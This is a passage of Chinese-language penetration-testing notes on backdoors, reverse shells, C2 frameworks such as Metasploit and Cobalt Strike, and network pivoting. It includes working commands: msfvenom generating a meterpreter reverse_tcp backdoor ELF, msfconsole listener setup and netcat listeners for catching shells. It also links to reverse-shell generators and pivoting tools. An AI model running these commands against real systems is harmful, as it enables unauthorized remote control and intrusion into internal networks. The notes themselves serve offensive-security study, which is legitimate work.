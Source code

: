 
```bash frame="none"
# 產生後門 ELF
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f elf -o backdoor
# 開啟 C2 監聽器
msfconsole
use linux/x64/meterpreter/reverse_tcp
set LHOST wg0 (192.168.255.139)
set LPROT 8888    # 和後門的一樣
exploit
```

## Reverse Shell

* 在本地開 port，等目標反連回來的 shell
* 通常要有 public IP
* [Vanilla generator](https://www.revshells.com)
* [Upgrade generator](https://github.com/antonioCoco/ConPtyShell)

```bash frame="none"
nc -lvnp 8888                 # listen

# execute reverse shell payload #

rlwrap nc -lvnp 8888
```

## C2 Framework

* Connect & Communication
* Cobalt Strike
* Metasploit
* Powershell Empire

### 使用 Metasploit 產生後門

```bash frame="none"
msfconsole
use linux/x64/meterpreter/reverse_tcp
set LHOST wg0
set LPORT 8888
exploit
```

# 6. Network Pivoting

* 內網(intranet)漫遊、跳板
* 由於網段劃分，所以只能摸到有限的機器 -> 找多網卡機器
* 內網有防火牆
* 在滲透企業的時候，需要在內網網段跳來跳去
* [介紹文章](https://johnliu55.tw/ssh-tunnel.html)
* 重要：好好記錄轉發 port
* 工具：[chisel](https://github.com/jpillora/chisel)、[ligolo-ng](https://github.com/nicocha30/ligolo-ng)、frp
* 由於最外層的 Server 認不出內層的 AD，需要經由中間的 Proxy 轉發
